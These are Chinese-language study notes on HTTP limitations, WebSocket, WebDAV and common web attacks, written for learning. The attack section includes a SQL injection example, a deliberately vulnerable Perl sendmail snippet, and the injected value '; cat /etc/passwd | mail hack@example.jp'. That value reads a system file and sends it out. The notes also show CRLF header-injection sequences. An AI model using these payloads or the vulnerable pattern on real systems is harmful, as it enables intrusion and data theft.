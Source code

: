HTTP的瓶颈

* 一条连接上只可发送一个请求。
* 请求只能从客户端开始。客户端不可以接收除响应以外的指令。
* 请求 / 响应首部未经压缩就发送。首部信息越多延迟越大。
* 发送冗长的首部。每次互相发送相同的首部造成的浪费较多。
* 可任意选择数据压缩格式。非强制压缩发送。

解决方法：

1. Ajax (局部更新)
2. Comet (延迟响应，请求了挂起，等有更新再响应)

------

WebSocket

* 推送功能：服务器推送给客户端
* 减少通信量

    1. 保持连接状态
    2. 握手请求：
        * 请求头字段`Upgrade: websocket`
        * 请求头字段`Sec-WebSocket-Key`：握手过程中必不可少的键值
    3. 握手响应：
        * 响应状态码`101 Switching Protocols`
        * 响应字段`Sec-WebSocket-Accept`：根据`Sec-WebSocket-Key`生成

-----

Web 服务器管理文件的 WebDAV

是一个可对 Web 服务器上的内容直接进行文件复制、编辑等操作的分布式文件系统

一些概念
* 集合（Collection）：是一种统一管理多个资源的概念。以集合为单位可进行各种操作。也可实现类似集合的集合这样的叠加。
* 资源（Resource）：把文件或集合称为资源。
* 属性（Property）：定义资源的属性。定义以“名称 = 值”的格式执行。
* 锁（Lock）：把文件设置成无法编辑状态。多人同时编辑时，可防止在同一时间进行内容写入。

-----


WebDAV 为实现远程文件管理，向 HTTP/1.1 中追加了以下这些方法
* PROPFIND ：获取属性
* PROPPATCH ：修改属性
* MKCOL ：创建集合
* COPY ：复制资源及属性
* MOVE ：移动资源
* LOCK ：资源加锁
* UNLOCK ：资源解锁

为配合扩展的方法，状态码也随之扩展。
* 102 Processing ：可正常处理请求，但目前是处理中状态
* 207 Multi-Status ：存在多种状态
* 422 Unprocessible Entity ：格式正确，内容有误
* 423 Locked ：资源已被加锁
* 424 Failed Dependency ：处理与某请求关联的请求失败，因此不再维持依赖关系
* 507 Insufficient Storage ：保存空间不足

-----

* XSS攻击
* SQL注入攻击

     例子：
     
     URL 的查询字段已指定 `xxx.com/?q= 上野宣`，这个值由 Web 应用传入到SQL 语句中，构成下方的 SQL 语句。

     `SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1;`
     
     注入：
     
     查询字段的`上野宣`改写成`上野宣'--`，执行以下SQL(`--`表示之后是注释)
     
     `SELECT * FROM bookTbl WHERE author ='上野宣' --' and flag=1;`
     
 * OS 注入攻击
 
    一段咨询表单代码，会获取用户填写的邮箱，自动发送一封邮件。
    
    ```
    my $adr = $q->param('mailaddress');
    open(MAIL, "| /usr/sbin/sendmail $adr");
    print MAIL "From: info@example.com\n";
    ```
    
    攻击者将下面的值指定作为邮件地址
    
    `; cat /etc/passwd | mail hack@example.jp`
    
    攻击者的输入值中含有分号`;`。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记
    
* HTTP 首部注入攻击
    
    有些响应会将请求的一部分作为响应首部字段值。
    
    HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行`%0D%0A`，添加任意响应首部或主体的一种攻击
 
    HTTP 首部注入攻击有可能会造成以下一些影响。
    * 设置任何 Cookie 信息
    * 重定向至任意 URL
    * 显示任意的主体（HTTP 响应截断攻击）
    
* HTTP 响应截断攻击

    插入2个换行`%0D%0A%0D%0A`，伪造成响应主体。
    
* 开放重定向

    重定向参数写在`URL`上，容易被篡改
    
    `http://example.com/?redirect=http://hackr.jp`
    
* 会话劫持( 盗取`sid`)

    * 通过非正规的生成方法推测会话 ID
    * 通过窃听或 XSS 攻击盗取会话 ID
    * 通过会话固定攻击（Session Fixation）强行获取会话 ID
    
* 跨站点请求伪造(CSRF)
    
    可能造成的危害：
    * 利用已通过认证的用户权限更新设定信息等
    * 利用已通过认证的用户权限购买商品
    * 利用已通过认证的用户权限在留言板上发表言论
    
    例子：
    
    留言板评论`<img src="恶意代码" />`
    
    其他用户访问，执行恶意代码，被获取`cookie`
    
    
------

通过网络进行密码试错

* 穷举法
* 字典攻击
* 彩虹表

    `Rainbow Table`是由明文密码及与之对应的散列值构成的一张数据库表
    
* 点击劫持(UI伪装)
* DoS 攻击

    主要有以下两种 DoS 攻击方式。
    * 集中利用访问请求造成资源过载，资源用尽的同时，实际上服务也就呈停止状态。
    * 通过攻击安全漏洞使服务停止。
    
    多台计算机发起的 DoS 攻击称为 DDoS 攻击

